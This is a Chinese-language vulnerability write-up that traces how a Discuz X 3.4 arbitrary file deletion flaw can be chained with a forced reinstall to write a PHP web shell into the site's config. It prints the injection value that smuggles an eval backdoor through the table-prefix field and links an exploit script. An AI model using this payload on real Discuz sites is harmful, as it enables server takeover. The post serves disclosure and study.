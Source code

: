 ```yaml
---
title: Discuz X 3.4 由任意文件删除到 Getshell
date: 2017-10-02 00:14:34
tags: [Hack]
---
```


2017年9月29日，Discuz! 修复了一个安全问题用于加强安全性，这个漏洞会导致前台用户可以导致任意删除文件漏洞。并且，配合其他漏洞可以实现 GetShell。<!--more-->

## 初步分析

先下载官方托管在码云上的 Discuz X 源码：

```sh
$ git clone https://gitee.com/ComsenzDiscuz/DiscuzX.git
```

查看其提交历史，发现有一个『优化 加强安全性』的 commit 比较可疑：
!["优化 加强安全性"]( 截图 2017-10-01 21时29分18秒.jpg)

查看其具体内容：
!["修复"]( 截图 2017-10-01 21时31分17秒.jpg)

它删除了5个 unlink 语句……

这种修复方式真是简单粗暴啊… 看来我们分析的入口就在这里了。

## 任意文件删除

这部分的分析请参考这里：https://paper.seebug.org/411/ 

(别吐槽——这篇文章分析得很好，省了我很多字 :haha:)

## 文件删除能做什么

通过上面那篇文章，想必大家都能复现文件删除的漏洞了。那么这个漏洞能做什么呢？难道只是单纯的破坏吗？

我们知道， Discuz X 这类 CMS 软件，都会一个 install 目录，用来处理用户初次安装时的配置和数据库初始化。在安装完成后，会在 data 目录下生成一个 install.lock 文件。如果尝试再次访问 /install 来安装，检测到存在 install.lock，于是提示错误：
![](截图 2017-10-01 22时03分20秒.jpg)

如果用户没有删除 install 目录，而且我们也可以利用文件删除漏洞的话，我们就可以删掉这个 instal.lock，然后重新安装 Discuz。而重装过程中一般都有写配置文件的步骤，可能会给我们写入一句话的机会。

## 分析重装过程

`install/index.php` 文件控制安装的过程，它的逻辑其实很简单。安装主要分为五个步骤：
![](截图 2017-10-01 22时10分36秒.jpg)

1. show_license 显示是否接受协议，同意后跳到 env_check
2. env_check 检查目录是否可写和 PHP的相关检测，然后跳到 app_reg
3. app_reg 提示是否安装 UCenter Server，POST 到  app_reg，如果 install_ucenter=yes，直接重定向至 db_init，否则显示配置 ucenter 的表单
4. db_init 要求填写数据库和网站信息，POST 到 db_init，这时会进行数据库连接和数据表的检查。所以填写的数据库地址等信息要求必须是目标站能够连接的真实的服务器。
5. ….

在 db_init 的处理逻辑里，我们看到了想要的：
![](截图 2017-10-01 22时59分56秒.jpg)

跟进 save_config_file 函数：
![](截图 2017-10-01 23时11分59秒.jpg)

继续跟进  getvars 函数：
![]( 截图 2017-10-01 23时14分11秒.jpg)

结果却让人失望，这里的 addcslashes 会转义我们的引号，导致一句话无法逃逸出引号，无法执行。

但是紧跟着的 install_uc_server 让我很开心：
![](截图 2017-10-01 23时05分25秒.jpg)

跟进 install_uc_server: 
![](截图 2017-10-01 23时19分06秒.jpg)

发现它没有对传入的参数做任何过滤，传入了 save_uc_config 中:
![](截图 2017-10-01 23时20分58秒.jpg)
同样 save_uc_config 也没有做任何处理，直接拼接到配置文件字符串中，然后写入了文件。

因为 dbhost, dbuser 等参数需要用来连接数据库，所以我们能利用的就只有 tablepre 了，也就是我们指定的数据库前缀。我们构造这样的 tablepre:

	x');@eval($_POST[pwd]);('

实验一下：

![]( 截图 2017-10-01 23时27分59秒.jpg)

然后查看 config/uc_config.php 文件，发现我们的一句话已经写入了：
![]( 截图 2017-10-01 23时38分00秒.jpg)

使用菜刀连接：
![]( 截图 2017-10-01 23时39分13秒.jpg) 

## EXP

最后，附上整个利用过程的 EXP：
https://gist.github.com/j178/67f4dbd8e87cd012a7caa8752ea06e7b

（**此漏洞危害巨大，请勿在网络上测试**）

